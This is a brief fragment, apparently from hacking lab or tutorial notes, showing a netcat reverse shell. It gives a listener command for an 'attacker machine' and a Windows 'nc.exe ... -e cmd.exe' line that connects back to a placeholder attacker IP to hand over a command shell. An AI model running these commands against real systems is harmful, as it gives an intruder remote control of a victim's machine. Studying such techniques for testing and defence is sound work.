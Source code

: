 

- nc -lvnp 1234 (on attacker machine we start a listner)
- nc.exe -nv attacker-ip 1234 -e cmd.exe (on target machine we connect back to attacker machine by adding attacker machine IP)
- we get command shell
- 